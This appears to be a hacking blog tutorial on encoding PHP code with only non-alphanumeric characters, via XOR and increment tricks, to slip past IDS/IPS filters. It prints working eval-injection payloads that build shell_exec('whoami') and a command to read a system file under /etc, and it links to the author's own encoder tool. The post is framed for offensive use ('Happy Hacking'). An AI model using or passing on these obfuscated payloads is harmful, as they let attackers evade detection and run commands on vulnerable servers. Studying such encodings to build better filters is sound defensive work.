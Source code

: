 ```yaml
---
title: Bypass with PHP non-alpha encoder 
layout: post
author: mucomplex
description: This useful when you encounter IDS/IPS prevention which need to bypass PHP code execution
---
```


In this tutorial, I will cover PHP non-alpha encoder. I will show some basic concept first before we going deeper which may cause brain damage. muehehe <br>

A     | B     |     XOR A&B
--------|-------|-------------------
0       | 0     |          0
1       | 0     |          1
0       | 1     |          1
1       | 1     |          0

so if 'A' xor 'A' should be 0. as example below: <br>
![Image 1](/images/PHP_Non-Alpha/Selection_001.png)<br><br>

now lets try 'A' xor '1' : <br>
![Image 2](/images/PHP_Non-Alpha/Selection_002.png)<br><br>

Wait what?.. how it can be 'p' ? .. what's the logic there?. Okay, okay.. I'm going back to basic.<br>
![Image 3](/images/PHP_Non-Alpha/ascii.gif)<br><br>

By opening online calculator <br>
![Image 4](/images/PHP_Non-Alpha/Selection_003.png)<br><br>
In hex, 'A' is '0x41' and '1' is '0x31' , it is not really 0x01. So after xor the value, it get '0x70' which may be the alphabet of 'p' in ascii table <br>

Okay now, what is non-alpha?<br>
**Non-alphanumeric characters that are considered to be symbols are also treated as white space.** <br>
The question is?.. can non-alpha be constructing to become strings?.. answer: Yes!! <br>

Okay, let's take a look again. in hex table, I will use hex 0x20 to 0x40 and 0x7B until 0x7E, so it is not in alphabet range. so with this combination, I try to construct a string <br>
![Image 5](/images/PHP_Non-Alpha/Selection_004.png)<br><br>

You have the basic concept now. Lets *fire-up* our PHP-cli (I will use php7.x).As we know variable declaration in most programming language accept a-z, A-Z,0-9 and underscore.
I will use underscore as my variable.<br>
First command I use to declare my variables '$\_;'.It will contain undefine variable, which we may assume as 'Null' or '0'.<br>
2nd, I try to increase the '$\_;' by append '++' at the end ($\_++;).Result will be numeric '1' <br>
3rd, by concate string and number, php will take first parameter as its type. ''.$\_ is string '1' . I try to xor again with 'A', it gives 'p'. I hope it is clear. <br>
![Image 6](/images/PHP_Non-Alpha/Selection_005.png)<br><br>

So let construct our string. but lazy?.. okay I made some tool for you, and study the code.<br>
[PHP\_alphanumeric\_encoder](https://github.com/mucomplex/PHP_alphanumeric_encoder) <br>

What is python argumentparser? and how to declare it?<br>
**The argparse module makes it easy to write user-friendly command-line interfaces. The program defines what arguments it requires, and argparse will figure out how to parse those out of sys.argv. The argparse module also automatically generates help and usage messages and issues errors when users give the program invalid arguments.** <br>

![Image 7](/images/PHP_Non-Alpha/Selection_006.png)<br><br>

Then I initialize php\_encoder class with 3 arguments which is payload,method and badchar. I also create symbolic\_list by using string.digits + string.printable[62:94] . <br>
Finally I create list of 'xor' and 'or' non-alpha to be store. <br>

![Image 8](/images/PHP_Non-Alpha/Selection_007.png)<br><br>

Below is function replacing badchar with ''. <br>
![Image 9](/images/PHP_Non-Alpha/Selection_008.png)<br><br>
php\_encoder is check: <br>
1. check if successfully encode all payload character.
2. iteration of xor non-apha and non-alpha.
3. if payload contain non-alpha.It directly pickup the non-alpha character.
4. else it will 'xor' and check if match, it append to the list.
![Image 10](/images/PHP_Non-Alpha/Selection_009.png)<br><br>

if you look at the code, there is another logic that I use. which is 'or' encoder. you may figure out this your self. <br>
Let test the code: <br>
![Image 11](/images/PHP_Non-Alpha/Selection_010.png)<br><br>
![Image 12](/images/PHP_Non-Alpha/Selection_011.png)<br><br>

echo $\_\_($\_);  it actually same as echo shell\_exec('whoami'). <br>

Hands-on time!!! , below code is vulnerable to php-nonalpha encoder,which limit us only to write number and some symbols. <br>
![Image 13](/images/PHP_Non-Alpha/Selection_012.png)<br><br>
With same payload we craft before.Try to exploit eval function.<br>
($\_ = ('7'^'@').('7'^'_').('/'^'@').(':'^'[').('@'^'-').('['^'2')) is define for whoami .<br>
($\_\_= ('3'^'@').('3'^'[').('8'^']').(','^'@').('@'^',')."\_".('['^'>').(']'^'%').('^'^';').('^'^'=')) is define for shell_exec .<br>
($\_\_($\_)) is equal to shell\_exec('whoami') .<br><br>
eval('print '.($\_ = ('7'^'@').('7'^'\_').('/'^'@').(':'^'[').('@'^'-').('['^'2')).($\_\_= ('3'^'@').('3'^'[').('8'^']').(','^'@').('@'^',')."\_".('['^'>').(']'^'%').('^'^';').('^'^'=')).($\_\_($\_)).";"); <br>
I bracket for each variables define and execute it by calling ($\_\_($\_)) <br>
![Image 14](/images/PHP_Non-Alpha/Selection_013.png)<br><br>
![Image 14](/images/PHP_Non-Alpha/Selection_014.png)<br><br>


try with another payload 'cat /etc/password' and arrange our payload back. <br>

($\_ = ('8'^'[').('!'^'@').(')'^']').('['^'{')."/".(']'^'8').(']'^')').(']'^'>')."/".('^'^'.').('^'^'?').('\_'^',').('3'^'@').('7'^'@').('9'^']')).($\_\_= ('3'^'@').('3'^'[').('8'^']').(','^'@').('@'^',')."\_".('['^'>').(']'^'%').('^'^';').('^'^'=')).($\_\_($\_)) <br>

![Image 14](/images/PHP_Non-Alpha/Selection_015.png)<br><br>
![Image 14](/images/PHP_Non-Alpha/Selection_016.png)<br><br>

Congratulation!!.. You have mastered the first technique."mucomplex, do you have another alternative?." . Answer is Yes!. <br>

This technique is defined as the increment technique. <br>
First, we try to create a string from PHP stdout. Look the example below. There many ways to define it.<br>
![Image 15](/images/PHP_Non-Alpha/Selection_017.png)<br><br>
The "Array" string will store on "$\_" variable. Next, we try to create "0" by setting the undefined variable ($\_\_). Then we will get "A" when 
"$\_\_\_ = $\_[$\_\_]" which mean we have access "A" in "Array" string.  If we increment "$\_\_\_++"   we can obtain alphabet A-Z. Then we try to increase $\_\_++ so it will have value 1. then feed again to "$\_[$\_\_]" we will obtain "r". if we increment the "$\_\_" for 2 times more, we can obtain small capital "a". Now you have a basic idea of how we can control A-Z,a-z,0-9.<br>
![Image 16](/images/PHP_Non-Alpha/Selection_018.png)<br><br>
![Image 17](/images/PHP_Non-Alpha/Selection_019.png)<br><br>

That's all from me. Happy Hacking. <br>


